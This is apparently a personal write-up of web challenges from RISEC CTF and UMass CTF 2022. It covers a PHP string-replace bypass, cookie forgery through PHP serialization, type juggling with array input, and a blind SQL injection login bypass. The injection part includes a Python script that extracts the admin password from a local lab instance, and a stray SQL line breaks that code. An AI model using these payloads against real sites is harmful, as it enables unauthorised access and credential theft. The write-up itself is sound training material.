 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# RISEC CTF + UMass CTF 2022

<mark style="color:blue;">`Web Challenge`</mark>

## RISEC CTF&#x20;

### Pretty Horrible Program 1

```
  <?php
  if (isset($_GET['bingus'])) {
    $input = $_GET['bingus'];
    $to_replace = 'bingus';
    $clean_string = preg_replace("/$to_replace/", '', $input);
    echo "<p>Your string is: $clean_string</p>";
    if ($clean_string == $to_replace) {
      echo "<h2 class=\"answer\">Bingus <span style=\"color: green;\">IS</span> your beloved</h2>";
      output_flag();
    } else {
      echo "<h2 class=\"answer\">Bingus <span style=\"color: red;\">IS NOT</span> your beloved</h2>";
    }
  }
  ?>
```

* Notice that $clean\_string genererated by replacing&#x20;
* So that we just input something that after replacing. it's equal to 'bingus'

demo:

![](<.gitbook/assets/image (3).png>)

![](<.gitbook/assets/image (8).png>)



### Pretty Horrible Program 2

```
class User
  {
    public $role = 'Admin'; 	
}

$default_user = new User;
$_COOKIE = serialize($default_user);
setcookie(
    'user',
    serialize($default_user)
  );
$a=unserialize($_COOKIE);
echo "$_COOKIE"
```

### Pretty Horrible Program 3

```
<?php
  if (isset($_GET['input1']) and isset($_GET['input2'])) {
    if ($_GET['input1'] == $_GET['input2']) {
      print '<h3 class="error">Nice try, but it won\'t be that easy ;)</h3>';
    } else if (hash("sha256", $_GET['input1']) === hash("sha256", $_GET['input2'])) {
      output_flag();
    } else {
      print '<h3 class="error">Your inputs don\'t match</h3>';
    }
  }
  ?>
  <p>See if you can make the sha256 hashes match</p>
  <br />
  <a href="/php3/index.php?source=true">Source Code</a>
  <form method="get">
    <input type="text" required name="input1" placeholder="Input 1" />
    <p>Hash: <?php if (isset($_GET['input1'])) print hash("sha256", $_GET['input1']) ?></p>
    <input type="text" required name="input2" placeholder="Input 2" />
    <p>Hash: <?php if (isset($_GET['input2'])) print hash("sha256", $_GET['input2']) ?></p>
    <input type="submit" />
  </form>
</body>

</html>
<?php
```

Workflow:

* At first, i just try to find around the key work "SHA256 collision" but we got [<mark style="color:blue;">this one</mark> ](https://crypto.stackexchange.com/questions/47809/why-havent-any-sha-256-collisions-been-found-yet)<mark style="color:blue;">,</mark> it takes about ≈3.6×1013 years to find, so that it's not a practical option.
* After that i focused on '==' in php. Searching around and i got [<mark style="color:blue;">this</mark> ](https://www.invicti.com/blog/web-security/php-type-juggling-vulnerabilities/)and [<mark style="color:blue;">this</mark>](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)<mark style="color:blue;"></mark>
* Now you just put \[] in input and get flag.

## UMass CTF

## venting

This challenge ended and the website was turned off. So i build it in docker from [<mark style="color:blue;">here</mark>](https://github.com/UMassCybersecurity/UMassCTF-2022-challenges)<mark style="color:blue;"></mark>

* when you connectn try to see history in burpsuite, you can get the link redirect to the login page
* Now read the hint with 'admin' in user and  password does't have fillter so that mean that may be SQLI. Exactly. that's is blind SQLI
* I solve this challenge by burpsuite as same as [<mark style="color:blue;">this lab</mark>](https://portswigger.net/web-security/sql-injection/blind)<mark style="color:blue;"></mark>

otherway, try to bruteforce by python request:

```
import requests, string

url = "http://localhost:49153/fff5bf676ba8796f0c51033403b35311/login"
s = requests.session()

passwordRetrieve = ""
# ' or (select 'a' from users where username='admin' and length(Password)>36)='a

def solve():
    global passwordRetrieve
    index = 0
    while True:
        for char in string.printable:
            usernamefield = "\\"
            passwordfield = f"' or (select 'a' from users where username='admin' and substr(Password,{index},1)='{char}')='a"
            postParam = {'user': usernamefield, 'pass': passwordfield}
            response = s.post(url, data=postParam).text
            if "Invalid" not in response:
                passwordRetrieve += char
                index += 1
                print(passwordRetrieve)
                break
        if (index == 37):
            break
SELECT * from users WHERE username='admin\' AND Password = ''or 'True'
solve()
```





Thanks for reading. Have a good day :heart: !



Contact:

* <mark style="color:blue;">``</mark><img src=".gitbook/assets/image (6).png" alt="" data-size="line"><mark style="color:blue;"></mark>[<mark style="color:blue;">facebook</mark> ](https://www.facebook.com/rong.truong.372)<mark style="color:blue;"></mark>
